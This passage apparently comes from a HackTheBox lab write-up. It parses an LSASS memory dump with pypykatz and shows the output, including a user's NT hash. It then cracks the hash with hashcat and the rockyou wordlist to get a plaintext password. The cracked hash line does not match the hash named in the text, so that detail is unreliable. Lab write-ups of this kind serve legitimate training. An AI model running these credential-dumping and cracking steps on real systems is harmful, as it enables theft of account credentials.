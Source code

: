 As we now have the file lsass.dmp on our attack machine, we can use pypykatz command to parse the secrets hidden in the LSASS process memory dump. We use `lsa` in the command because LSASS is a subsystem of `local security authority`, then we specify the data source as a `minidump` file, proceeded by the path to the dump file. The output of the long-ass command :
```c
pypykatz lsa minidump /home/htb-ac-1052766/Documents/lsass.dmp
.
.
.
SNIP
.
.
.
== LogonSession == 
authentication_id 128547 (1f623) 
session_id 0 
username Vendor 
domainname FS01 
logon_server FS01 
logon_time 2024-10-10T17:09:49.021641+00:00 
sid S-1-5-21-2288469977-2371064354-2971934342-1003 
luid 128547 
== MSV == 
Username: Vendor 
Domain: FS01 
LM: NA 
NT: 31f87811133bc6aaa75a536e77f64314 
SHA1: 2b1c560c35923a8936263770a047764d0422caba 
DPAPI: 0000000000000000000000000000000000000000 
== WDIGEST [1f623]== 
username Vendor 
domainname FS01 
password None password (hex) 
== Kerberos == 
Username: Vendor 
Domain: FS01 
== WDIGEST [1f623]== 
username Vendor 
domainname FS01 
password None password (hex)
```

Actually I inserted only the part of the command where we see the NT hash only for the requested user Vendor. But the command dumped all hashes of all active users

As we see the hash is `31f87811133bc6aaa75a536e77f64314`
So to get answer we need to crack it using hashcat:
```c
sudo hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt
.
.
.
SNIP
.
.
.
64f12cddaa88057e06a81b54e73b949b:Mic@123
```
